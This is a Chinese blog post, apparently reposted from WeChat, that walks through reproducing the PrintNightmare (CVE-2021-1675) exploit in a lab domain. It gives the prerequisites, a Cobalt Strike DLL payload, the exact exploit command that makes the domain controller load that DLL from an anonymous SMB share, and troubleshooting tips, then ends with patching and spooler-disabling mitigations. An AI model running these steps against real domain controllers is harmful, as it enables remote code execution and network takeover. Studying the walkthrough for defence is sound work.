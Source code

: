 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/V0acZgnqXS4NYAVdO2m3Cg)

复现漏洞利用的 Windows 版本是 Windows Server 2019 Version 1809，使用了 https://github.com/cube0x0/CVE-2021-1675 项目的 python 版本 exp。

测试流程
----

经过反复测试后，发现远程命令执行需要满足一些条件：

1.  创建的 smb 服务允许匿名访问。
    
2.  验证使用普通域用户的用户名和密码。
    
3.  需要在域环境内。
    

首先在域控上添加一个普通域用户，设置用户名和密码

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7Vib1vMJWbIdGE2PP1FvBwfhvhFrX6vfHspePNFwX8icGMcDBRePe7RZJKw/640?wx_fmt=png)

  

因为 spoolsv.exe 是 x64 的，所以我们这里 Cobalt Strike 也生成 x64 的 dll

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7VibWtWm7dKLsVubMibQIORuIYMbNkSFpKwicBKT6A8bckdt8IHVygofUwmg/640?wx_fmt=png)

  

按照 https://github.com/cube0x0/CVE-2021-1675 的 smb 设置方法，在域内一台主机上提供匿名访问权限的共享文件

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7VibCetPrTEF4J4ZVqP3Rm0dTVJzzzFiaxzBo0jMdL6JianYLpr6uGxhqmNw/640?wx_fmt=png)

  

在域内的其他主机上放置好生成的 artifact.dll，设置分享目录并允许匿名访问，在域控上必须能直接获取到文件

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7Vibg6ka7IVf1FmprPyLf86rCcmQ0C0icaUeSmTS93ficj3SgS8BNPmcfNHQ/640?wx_fmt=png)

  

使用 exp，参数分别是刚才创建的新域用户的用户名和密码，还有 DC 的 ip，最后是 smb 共享文件的路径

```
python CVE-2021-1675.py testUser:123qweASD@192.168.92.150 \\192.168.92.130\share\artifact.dll
```

这里会遇到一些坑，如果报错 **Error: code: 0x5 - rpc_s_access_denied** 说明 smb 还不能匿名访问，如果连续执行成功，但是只复制了 dll 并未执行，可能是验证用户不是普通域用户账号。

使用 Procmon 发现测试用的 artifact.dll 已经被 spoolsv.exe 加载：

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7VibMFiaSC9r76hAMvnr5YBt7bPQQTNgGGC3Jv7ANicK1YG1tEbzN6IOOzEQ/640?wx_fmt=png)

  

上线成功

![](https://mmbiz.qpic.cn/mmbiz_png/cOCqjucntdFv903Lm9Cj8RdLHpia5l7VibDVrhVUpAS4vJudWUNce2PFoORxSicjXrqfTZTYQSicqjkTQn9ZSrUiayw/640?wx_fmt=png)

  

防御方法
----

安装微软 **CVE-2021-1675** 漏洞补丁

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675

关闭打印机服务

```
Stop-Service SpoolerREG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

参考文章和项目
-------

*   https://github.com/cube0x0/CVE-2021-1675
    
*   https://github.com/afwu/PrintNightmare
    
*   https://blog.csdn.net/ShelleyLiu0415/article/details/47836855
    
*   http://noahblog.360.cn/cve-2021-1675/
    
*   https://github.com/cube0x0/CVE-2021-1675/issues/19